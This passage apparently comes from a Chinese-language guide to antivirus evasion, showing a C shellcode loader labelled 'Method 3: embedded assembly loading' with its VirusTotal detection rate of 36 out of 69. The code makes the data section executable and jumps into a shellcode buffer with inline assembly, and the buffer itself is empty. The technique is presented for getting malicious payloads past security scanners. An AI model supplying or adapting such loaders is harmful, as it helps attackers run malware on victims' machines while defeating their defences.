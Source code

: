 VT：

![image-20220530140029621](./images/202205301400718.png)

### 方法3 嵌入汇编加载（VT免杀率36/69）

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{

        __asm
    {

        mov eax, offset shellcode
        jmp eax

    }
}
```
